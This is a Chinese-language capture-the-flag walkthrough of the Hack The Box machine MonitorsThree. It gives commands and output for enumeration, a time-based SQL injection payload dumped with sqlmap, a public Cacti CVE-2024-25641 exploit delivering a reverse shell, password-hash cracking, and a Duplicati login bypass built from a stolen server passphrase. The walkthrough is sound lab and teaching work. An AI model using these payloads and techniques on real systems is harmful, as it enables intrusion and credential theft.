










serveic

```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A -O  10.10.11.30
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-25 22:35 EDT
Nmap scan report for 10.10.11.30
Host is up (0.36s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86f87d6f4291bb897291af72f301ff5b (ECDSA)
|_  256 50f9ed8e73649eaaf6089514f0a60d57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/25%OT=22%CT=1%CU=35354%PV=Y%DS=2%DC=T%G=Y%TM=66CBEA2
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST1
OS:1NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   233.00 ms 10.10.16.1
2   407.71 ms 10.10.11.30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.04 seconds
```

域名：monitorsthree.htb


vhost爆破
```
┌──(root㉿kali)-[~]
└─# gobuster vhost -u http://monitorsthree.htb -w /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt --append-domain --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://monitorsthree.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: cacti.monitorsthree.htb Status: 302 [Size: 0] [--> /cacti]
Progress: 114441 / 114442 (100.00%)
===============================================================
Finished

```

写host
```
echo "10.10.11.30 monitorsthree.htb" >> /etc/hosts
echo "10.10.11.30 cacti.monitorsthree.htb" >> /etc/hosts
```


cacti version 
Version 1.2.26

存在：CVE-2024-25641
但是需要登录密码

默认登录凭据不能使用


monitorsthree.htb忘记密码页面
```
┌──(root㉿kali)-[~/htb/MonitorsThree]
└─# cat data              
POST /forgot_password.php HTTP/1.1
Host: monitorsthree.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://monitorsthree.htb
Connection: close
Referer: http://monitorsthree.htb/login.php
Cookie: PHPSESSID=eji8gath9g27u8usudgvh1rbg2
Upgrade-Insecure-Requests: 1

username=admin


```

存在基于时间的sql注入
```
[02:23:13] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 63 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3683 FROM (SELECT(SLEEP(5)))liLc)-- kPDD
---
[02:28:47] [INFO] the back-end DBMS is MySQL
[02:28:47] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

```


时间的注入非常慢，分别得到数据库名和表名后，下面命令dump出admin密码
```
sqlmap -r data  --risk=3 --level=3 --batch -p 'username' --dbms mysql --technique T -D monitorsthree_db -T users --dump
```


密码：greencacti2001


上面可以登陆cacti


使用[CVE-2024-25641](https://github.com/5ma1l/CVE-2024-25641)

命令
```
┌──(root㉿kali)-[~/htb/MonitorsThree/CVE-2024-25641]
└─# python3 exploit.py http://cacti.monitorsthree.htb/cacti/ admin greencacti2001 -p /root/htb/MonitorsThree/rev.php 

Created by: 5ma1l
        Automate the process of exploiting the CVE-2024-25641


[*] Login attempts...
[SUCCESS]
[*] Creating the gzip...
[SUCCESS]
GZIP path is /root/htb/MonitorsThree/CVE-2024-25641/bkfmlwvkkettdxbb.php.gz
[*] Sending payload...
[SUCCESS]
You will find the payload in http://cacti.monitorsthree.htb/cacti//resource/bkfmlwvkkettdxbb.php
Do you wanna start the payload ?[Y/n]y
Payload is running...


```

拿到rev shell
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.30] 35406
Linux monitorsthree 5.15.0-118-generic #128-Ubuntu SMP Fri Jul 5 09:28:59 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 06:58:51 up  2:55,  0 users,  load average: 0.30, 0.17, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

mysql
```

-rw-r--r-- 1 www-data www-data 6955 May 18 21:46 /var/www/html/cacti/include/config.php
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port     = '3306';
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
#$rdatabase_type     = 'mysql';
#$rdatabase_default  = 'cacti';
#$rdatabase_username = 'cactiuser';
#$rdatabase_password = 'cactiuser';
#$rdatabase_port     = '3306';
#$rdatabase_ssl      = false;
#$rdatabase_ssl_key  = '';
#$rdatabase_ssl_cert = '';
#$rdatabase_ssl_ca   = '';


```

用户列表

```
MariaDB [cacti]> select username,password from user_auth;
select username,password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |
| guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |
| marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |
+----------+--------------------------------------------------------------+
3 rows in set (0.000 sec)

MariaDB [cacti]> 

```


```
┌──(root㉿kali)-[~/htb/MonitorsThree/CVE-2024-25641]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678910      (?)     
1g 0:00:00:05 DONE (2024-08-28 03:41) 0.1703g/s 79.72p/s 79.72c/s 79.72C/s 12345678910..christina
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

提权到marcus
```
www-data@monitorsthree:/tmp$ su marcus
su marcus
Password: 12345678910

marcus@monitorsthree:/tmp$ cd ~
cd ~
marcus@monitorsthree:~$ cat user.txt
cat user.txt
cf7efe05fbb3b2d...
marcus@monitorsthree:~$ 

```

这个密码不能直接ssh，但是可以用秘钥登录
```
┌──(root㉿kali)-[~/htb/MonitorsThree]
└─# ssh marcus@10.10.11.30                                                             
The authenticity of host '10.10.11.30 (10.10.11.30)' can't be established.
ED25519 key fingerprint is SHA256:1llzaKeglum8R0dawipiv9mSGU33yzoUW3frO9MAF6U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.30' (ED25519) to the list of known hosts.
marcus@10.10.11.30: Permission denied (publickey).
                                                                                                                                         
┌──(root㉿kali)-[~/htb/MonitorsThree]
└─# vim id_rsa  
                                                                                                                                         
┌──(root㉿kali)-[~/htb/MonitorsThree]
└─# chmod 600 id_rsa
                                                                                                                                         
┌──(root㉿kali)-[~/htb/MonitorsThree]
└─# ssh marcus@10.10.11.30 -i id_rsa 
Last login: Tue Aug 20 11:34:00 2024
marcus@monitorsthree:~$ 

```


# 提权

内网开了一个8200端口
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                          
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN      -                                                                                      
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:34351         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   

╔══════════╣ Can I sniff with tcpdump?
```


转发到kali上
```
ssh -L 8200:127.0.0.1:8200 marcus@10.10.11.30 -i id_rsa  -N
```


一个叫Duplicati的程序




需要一个登录密码

把Duplicati相关的数据库下载到本地
```
marcus@monitorsthree:/opt/duplicati/config$ ls -alh
total 2.5M
drwxr-xr-x 4 root root 4.0K Aug 28 04:05 .
drwxr-xr-x 3 root root 4.0K Aug 18 08:00 ..
drwxr-xr-x 3 root root 4.0K Aug 18 08:00 .config
drwxr-xr-x 2 root root 4.0K Aug 18 08:00 control_dir_v2
-rw-r--r-- 1 root root 2.4M Aug 28 04:04 CTADPNHLTC.sqlite
-rw-r--r-- 1 root root  88K Aug 28 04:05 Duplicati-server.sqlite
marcus@monitorsthree:/opt/duplicati/config$ pwd
/opt/duplicati/config
marcus@monitorsthree:/opt/duplicati/config$ ls
control_dir_v2  CTADPNHLTC.sqlite  Duplicati-server.sqlite
marcus@monitorsthree:/opt/duplicati/config$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.16.9 - - [28/Aug/2024 08:04:47] "GET /CTADPNHLTC.sqlite HTTP/1.1" 200 -
10.10.16.9 - - [28/Aug/2024 08:05:00] "GET /Duplicati-server.sqlite HTTP/1.1" 200 -

```




根据[这篇文章](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee)

server-passphrase：Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
server-passphrase-salt：xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=


拿到nonce




{
  "Status": "OK",
  "Nonce": "l3NvSeXISl9fXJkkJsadxe2BMj8Rs8qdeQVicmMeeRs=",
  "Salt": "xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I="
}


base64+hex加密上面的server-passphrase
```
┌──(root㉿kali)-[~/htb/MonitorsThree]
└─# echo 'Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=' | base64 --decode | xxd -p
59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a
```

拿到当前session的密码
```
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('aNxfrlnCjtxawYy4GlCecIPo54sKurrzmjwMnL5+WZo=') + '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a')).toString(CryptoJS.enc.Base64);
console.log(noncedpwd)
```



替换以后再按forward




进去以后，先创建备份root.txt





选择备份的地址，这个随便填



注意root的应该是source里面的root



然后一路下一步，创建备份任务，点击运行



然后restore选择我们刚才备份的文件，还原到我们想要查看的路径

最后拿到root.txt


